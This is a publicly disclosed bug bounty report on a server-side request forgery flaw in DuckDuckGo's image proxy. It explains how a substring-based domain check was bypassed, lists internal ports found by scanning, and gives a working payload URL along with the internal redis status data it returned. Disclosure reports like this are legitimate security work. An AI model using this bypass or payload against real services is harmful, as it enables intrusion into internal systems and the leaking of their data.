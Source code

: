 # SSRF on duckduckgo.com/iu/

## Report Details
- **Report ID**: 398641
- **URL**: https://hackerone.com/reports/398641
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-08-23T18:18:39.196Z
- **Disclosed**: 2018-09-09T20:12:35.028Z

## Reporter
- **Username**: d0nut
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: duckduckgo

## Vulnerability Information
Normally, a call to `https://duckduckgo.com/iu` contains a query parameter (`u`) with some path using the domain `yimg.com`. This call will succeed in most cases.
{F337121}

And if we change that path to something like `https://google.com` it's rejected.
{F337118}

However, it appears that the check that ensures that `yimg.com` is the target domain is solely based on whether or not that string appears in the url, independent of where. This means we can stuff it in a query parameter and bypass this check.

{F337120}

Furthermore, with this bypass we can hit localhost and perform a port scan (see [XSPA](https://indiatriks.blogspot.com/2012/07/xspa-cross-site-port-attack.html)). 

For example, I have been able to conclude that services are running on the following ports:
```
22
25
80
443
587
6380
6432
6767
6868
8000
```

Some of these services don't like talking HTTP (like `22` and `25`) so they never respond, but other services seem to talk HTTP and will return seemingly sensitive data about redis. 
For example:
`https://duckduckgo.com/iu/?u=http://127.0.0.1:6868%2fstatus%2f?q=http://yimg.com/` returns the following:
```
{
  "current_time": "2018-08-23T17:56:06",
  "deployment_environment": "prod",
  "redis_local_last_successful_ping": "2018-08-23T13:56:05",
  "redis_local_url": "redis://127.0.0.1:6380",
  "redis_regional_last_successful_ping": "2018-08-23T13:56:05",
  "redis_regional_url": "redis://cache-services.duckduckgo.com:6380",
  "stat_blocked_ips_removed_since_launch": 8787,
  "stat_blocked_ips_since_launch": 12185,
  "stat_ipset_blocks": 266,
  "stat_redis_local_messages_received": 3613,
  "stat_redis_regional_messages_received": 10211,
  "status": "up"
}
```

## Impact

This could be used to interact with services that are not intended to be exposed. This also enables an XSPA attack. Additionally, information disclosure about a redis service. 

Lastly, an attack on redis may be possible even though the requests seem restricted to http.

## Attachments
- ports_1.png
- google_not_allowed.png
- ports_2.png
- query_param_bypass.png
- yimg_ok.png
